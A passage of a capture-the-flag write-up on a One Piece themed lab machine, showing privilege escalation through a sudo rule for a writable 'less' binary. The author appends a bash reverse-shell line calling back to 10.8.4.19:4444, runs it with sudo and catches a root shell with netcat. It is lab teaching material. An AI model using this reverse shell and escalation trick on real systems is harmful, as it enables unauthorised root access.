 Ah yes `willpower`...that's useful indeed

Now we can try privesc basics again...I highly suspect sudo to work this time

```bash
$ su 7uffy_vs_T3@ch
Password: 
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo -l
[sudo] password for 7uffy_vs_T3@ch: 
Matching Defaults entries for 7uffy_vs_T3@ch on Laugh-Tale:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User 7uffy_vs_T3@ch may run the following commands on Laugh-Tale:
    (ALL) /usr/local/bin/less
7uffy_vs_T3@ch@Laugh-Tale:~$ 
```

less? really? now we can read stuff?

```bash
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo less /root/flag.txt
Sorry, I can't tell you where is the One Piece
```

sike...they got me! After "looking it up" we learn that less can be used to execute commands

funny how...

```bash
7uffy_vs_T3@ch@Laugh-Tale:~$  echo 'bash -i >& /dev/tcp/10.8.4.19/4444 0>&1' >> /usr/local/bin/less
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo less
Sorry, I can't tell you where is the One Piece

```

and on the listenner we have this...

```bash
└─(15:43:40)──> nc -lnvp 4444                                                                                                        ──(mar.,janv.16)─┘
listening on [any] 4444 ...
connect to [10.8.4.19] from (UNKNOWN) [10.10.80.106] 53462
root@Laugh-Tale:~# id
id
uid=0(root) gid=0(root) groups=0(root)

```

We did it boys! We can grab the one piece now

```bash

root@Laugh-Tale:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Jul 29  2020 .
drwxr-xr-x 24 root root 4096 Jul 29  2020 ..
-rw-------  1 root root  217 Aug 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Feb  3  2020 .cache
drwx------  3 root root 4096 Jul 26  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jul 26  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Jul 26  2020 .python_history
-rw-r--r--  1 root root  172 Jul 29  2020 .wget-hst
```
